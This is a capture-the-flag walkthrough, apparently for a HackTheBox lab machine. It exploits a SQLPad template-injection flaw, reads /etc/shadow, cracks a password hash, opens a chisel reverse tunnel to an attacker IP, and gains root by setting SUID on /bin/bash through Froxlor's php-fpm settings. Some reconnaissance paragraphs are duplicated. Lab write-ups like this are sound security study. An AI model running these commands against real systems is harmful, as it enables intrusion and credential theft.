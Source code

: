# ENUMERATION
---

## OPEN PORTS
---


| PORT | SERVICE |
| :--- | :------ |
| 21 | FTP |
| 22 | SSH |
| 80 | |

Let's start with reconnaissance.

# RECONNAISSANCE
---

![Pasted image 20250107170937.png](../../IMAGES/Pasted%20image%2020250107170937.png)

`echo "10.10.11.32 sightless.htb" | sudo tee -a /etc/hosts 2>/dev/null`

![Pasted image 20250107171213.png](../../IMAGES/Pasted%20image%2020250107171213.png)

Now we can access the website, we have a `home`, `about`, `services` and a `contact us` part, if we go to the service part, we can see the following:

![Pasted image 20250107171349.png](../../IMAGES/Pasted%20image%2020250107171349.png)

We got a `sqlpad` service, if we click start now, we are redirected to `sqlpad.sightless.htb`, let's add this subdomain to `/etc/hosts` too:

![Pasted image 20250107171612.png](../../IMAGES/Pasted%20image%2020250107171612.png)

Now we find ourselves in a sqlpad panel, if we look further in the site, we find we are using sqlpad 6.10.0:

![Pasted image 20250107172243.png](../../IMAGES/Pasted%20image%2020250107172243.png)

Let's check the web and see if there's anything related to this version:

![Pasted image 20250107172334.png](../../IMAGES/Pasted%20image%2020250107172334.png)

Found `CVE-2022-0944` which talks about a Template injection leading to a RCE, I also found this [github exploit](https://github.com/0xDTC/SQLPad-6.10.0-Exploit-CVE-2022-0944/blob/master/CVE-2022-0944) which works with bash:

![Pasted image 20250107182931.png](../../IMAGES/Pasted%20image%2020250107182931.png)


# EXPLOITATION
---

Now we find ourselves in a sqlpad panel, if we look further in the site, we find we are using sqlpad 6.10.0:

![Pasted image 20250107172243.png](../../IMAGES/Pasted%20image%2020250107172243.png)

Let's check the web and see if there's anything related to this version:

![Pasted image 20250107172334.png](../../IMAGES/Pasted%20image%2020250107172334.png)

Found `CVE-2022-0944` which talks about a Template injection leading to a RCE, I also found this [github exploit](https://github.com/0xDTC/SQLPad-6.10.0-Exploit-CVE-2022-0944/blob/master/CVE-2022-0944) which works with bash:

![Pasted image 20250107182931.png](../../IMAGES/Pasted%20image%2020250107182931.png)

Let's [stabilize the shell](../../Commands/Shell%20Tricks/STABLE%20SHELL.md), we would think that we already beat the machine since we got root access but no, we are inside of a docker container, we need some sort of way to get into the real machine, that's when we find 2 users, Michael and node:

![Pasted image 20250107183525.png](../../IMAGES/Pasted%20image%2020250107183525.png)

![Pasted image 20250107183536.png](../../IMAGES/Pasted%20image%2020250107183536.png)


Since we already have root access in the docker container, let's read `/etc/shadow` and get the hash for michael user:

![Pasted image 20250107183633.png](../../IMAGES/Pasted%20image%2020250107183633.png)

```ad-note
Michael hash is: 

`$6$mG3Cp2VPGY.FDE8u$KVWVIHzqTzhOSYkzJIpFc2EsgmqvPa.q2Z9bLUU6tlBWaEwuxCDEP9UFHIXNUcF2rBnsaFYuJa6DUh/pL2IJD/`

----
We need to crack this hash using john, let's do it:

`john hash -w=/usr/share/wordlist/rockyou.txt`

----
This will output: `insaneclownposse`


Let's log into ssh using those credentials:


`michael`:`insaneclownposse`
```



![Pasted image 20250107184751.png](../../IMAGES/Pasted%20image%2020250107184751.png)

Now we are inside of michael's account, we can read the user flag now:

```ad-note
user flag: `fa24b7668682e82a648c821ccf0d9526`
```

# Privilege escalation
---

Let's proceed with privesc.

We'll be using linpeas to show use some possible PE vectors:

![Pasted image 20250107185646.png](../../IMAGES/Pasted%20image%2020250107185646.png)

There is a weird connection made to the port `8080`, we need to investigate this, for this, we will use chisel as we need to resend the traffic back to our local machine:

```ad-hint

##### Doing a reverse proxy
---
1. `chisel server -p 9999 --reverse`
2. `chmod +x chisel`
3. `./chisel client 10.10.15.36:9999 R:8080:127.0.0.1:8080`


```

Now, let's visit the page:

![Pasted image 20250107192343.png](../../IMAGES/Pasted%20image%2020250107192343.png)

It's executing froxlor, in order to get the credentials, we'll be using the following exploit: [exploit](https://exploit-notes.hdks.org/exploit/linux/privilege-escalation/chrome-remote-debugger-pentesting/), this is basically a chrome remote debugger pentest, since the machine is running chrome actively, we can use this to exploit and access the credentials, once we've reproduce all the steps accordingly to the notes, we get the following credentials:

```ad-note

`admin`:`ForlorfroxAdmin`

```


Let's log into the panel:

![Pasted image 20250107193550.png](../../IMAGES/Pasted%20image%2020250107193550.png)

We got access to the panel, as seen, we have a php section, this has the following:

![Pasted image 20250107193639.png](../../IMAGES/Pasted%20image%2020250107193639.png)

We got `php-fpm`, we are able to execute php code, we can do the following:

```ad-note
1. Create new PHP version
2. `chmod 4777 /bin/bash`
3. Go to `/system/settings/php-fpm`, disable it and enable it again
4. Go to our terminal and perform `/bin/bash -p`
5. Get root shell
```


```ad-important
If we did all correctly, we are able to get root access:


This is the root flag:


Root: `1c4c6860beaa42a5b9b8e404fbcbf656`


```
